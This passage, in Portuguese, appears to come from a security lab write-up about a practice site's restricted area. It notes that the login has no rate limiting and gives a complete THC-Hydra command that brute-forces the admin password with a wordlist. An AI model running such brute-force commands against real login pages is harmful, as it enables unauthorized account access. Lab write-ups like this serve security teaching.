 
### Área Restrita

Com o THC-Hydra, Burp Suite ou OWASP ZAP é possível facilmente quebrar as senhas, já que não há um limitador de tempo.

![](assets/2023-09-04-00-16-58.png)

```
hydra -V -s 8000 \
    -l admin -P /opt/wordlists/common_it_passwords.txt \
    empresasegura.lab \
    http-post-form \
    '/login:login=^USER^&senha=^PASS^:Login incorreto!'
```

---

### Perfil
